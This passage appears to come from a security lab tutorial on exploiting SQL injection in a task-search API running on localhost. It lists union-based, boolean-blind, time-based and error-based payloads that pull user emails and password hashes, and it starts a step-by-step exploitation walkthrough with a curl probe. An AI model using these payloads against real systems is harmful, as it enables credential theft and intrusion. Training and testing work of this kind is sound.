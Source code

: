 ## Exploitation Techniques

### 1. Union-Based SQL Injection

**Objective**: Extract data from other database tables

```sql
-- Payload
' UNION SELECT id, email, password_hash FROM users--

-- Full URL
GET /api/tasks/search?query=' UNION SELECT id, email, password_hash FROM users--
```

**Expected Result**: Returns user credentials alongside task data

### 2. Boolean-Based Blind SQL Injection

**Objective**: Extract data when direct output is not visible

```sql
-- Test if user 'admin' exists
' AND (SELECT COUNT(*) FROM users WHERE email='admin@example.com') > 0--

-- Extract password character by character
' AND (SELECT SUBSTRING(password_hash,1,1) FROM users WHERE email='admin@example.com') = 'a'--
```

### 3. Time-Based Blind SQL Injection

**Objective**: Extract data using time delays

```sql
-- PostgreSQL time delay
'; SELECT CASE WHEN (SELECT COUNT(*) FROM users WHERE email='admin@example.com') > 0 THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

### 4. Error-Based SQL Injection

**Objective**: Extract data through database error messages

```sql
-- Force database error to reveal information
' AND (SELECT COUNT(*) FROM information_schema.tables)--
```

## Step-by-Step Exploitation Tutorial

### Phase 1: Discovery and Reconnaissance

1. **Identify Input Points**
   ```bash
   # Test basic injection
   curl "http://localhost:3000/api/tasks/search?query=test'"
   ```
